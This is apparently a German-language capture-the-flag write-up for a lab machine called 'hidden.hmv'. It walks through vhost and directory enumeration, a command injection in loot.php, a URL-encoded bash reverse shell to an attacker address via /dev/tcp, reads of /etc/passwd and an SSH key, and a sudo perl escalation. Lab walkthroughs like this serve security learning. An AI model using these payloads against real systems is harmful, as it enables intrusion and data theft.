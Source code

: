 
## Phase 2: Web Enumeration (VHosts & RCE)

1.  **VHost-Enumeration:**
    *   `gobuster vhost -u http://hidden.hmv [...]` (und `wfuzz`) identifizierten die Subdomain `sys.hidden.hmv`.
    *   Die `/etc/hosts`-Datei wurde entsprechend angepasst: `192.168.2.131 hidden.hmv sys.hidden.hmv`.

2.  **Verzeichnis-Enumeration auf `sys.hidden.hmv`:**
    *   `gobuster dir -u http://sys.hidden.hmv [...]` fand den Pfad `/weapon/` und die Datei `loot.php`.

3.  **Identifizierung der RCE-Schwachstelle:**
    *   Durch Parameter-Fuzzing (mit `wfuzz`, Details im Log nicht explizit, aber impliziert) wurde der GET-Parameter `hack` für `http://sys.hidden.hmv/weapon/loot.php` gefunden.
    *   Dieser Parameter war anfällig für Remote Code Execution (OS Command Injection). Beispiele:
        *   `loot.php?hack=whoami` -> `www-data`
        *   `loot.php?hack=cat%20/../../../../../../../../etc/passwd%20%7C%20grep%20bash` -> zeigte Benutzer `root`, `atenea`, `toreto`.
        *   `loot.php?hack=cat%20/home/atenea/.ssh/id_rsa.pub` -> enthüllte den öffentlichen SSH-Schlüssel von `atenea`.

---

## Phase 3: Initial Access (RCE als www-data)

1.  **Reverse Shell Payload:**
    *   Eine URL wurde konstruiert, um eine Bash-Reverse-Shell zum Angreifer-System (`192.168.2.140:9001`) zu starten:
        ```
        http://sys.hidden.hmv/weapon/loot.php?hack=%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.2.140%2F9001%200%3E%261%27
        ```

2.  **Empfang der Shell:**
    *   Ein Netcat-Listener (`nc -lvnp 9001`) auf dem Angreifer-System empfing die Verbindung.
    *   Initialer Zugriff als Benutzer `www-data` wurde erlangt.
    *   Die Shell wurde mit `python3 -c 'import pty; pty.spawn("/bin/bash")'` und `export TERM=xterm` stabilisiert.

---

## Phase 4: Privilege Escalation (www-data -> toreto -> atenea -> root)

### www-data zu toreto (Sudo/Perl)

1.  **Sudo-Rechte-Prüfung für `www-data`:**
    *   `sudo -l` (als `www-data`) zeigte:
        ```
        User www-data may run the following commands on hidden:
            (toreto) NOPASSWD: /usr/bin/perl -e exec "/bin/sh";
        ```
2.  **Ausnutzung:**
    *   `sudo -u toreto perl -e 'exec "/bin/sh";'`
    *   Dies gewährte eine Shell als Benutzer `toreto`. Die Shell wurde ebenfalls stabilisiert.
